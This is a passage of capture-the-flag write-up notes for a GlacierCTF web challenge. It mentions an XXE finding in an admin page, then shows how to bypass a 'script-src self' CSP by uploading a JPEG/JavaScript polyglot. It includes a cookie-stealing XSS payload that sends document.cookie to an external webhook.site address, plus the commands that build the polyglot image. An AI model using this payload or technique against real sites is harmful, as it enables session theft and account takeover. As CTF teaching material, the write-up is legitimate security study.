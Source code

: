 - **XXE Injection** in `admin/map.php`

![](attachment/dbb500e7b1b415ee1a2b754fe9173f04.png)
#### Session as admin

##### XSS - Bypass CSP via jpg polyglot

> https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#file-upload-+-self

> https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#jpeg-polyglot-xss

This **CSP** only allows scripts to be loaded from the site

```css
Content-Security-Policy: script-src 'self'
```

Since we can upload files, embed the javascript to steal cookie in JPG file, so that we can load it from site

> https://github.com/Wuelle/js_jpeg_polyglot

```bash
cd /opt/sectools/web/XSS/Bypasses/js_jpeg_polyglot
```

Check example format of payload

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF/js_jpeg_polyglot]
└─$ cat proof_of_concept/test.js
=alert("worked");
```

Craft a payload to steal cookie (Use `beef-xss` to open proxy if there was `HTTPONLY` set for cookie)

> `steal_cookie.js`

```javascript
=new Image().src="https://webhook.site/153036b5-ca9a-49d7-a0e0-4d194fce1d2e?c="+btoa(document.cookie);
```

Generate image payload

```bash
convert -size 100x100 xc:white gen.jpg
python polyglot.py gen.jpg steal_cookie.js out.jpg
```
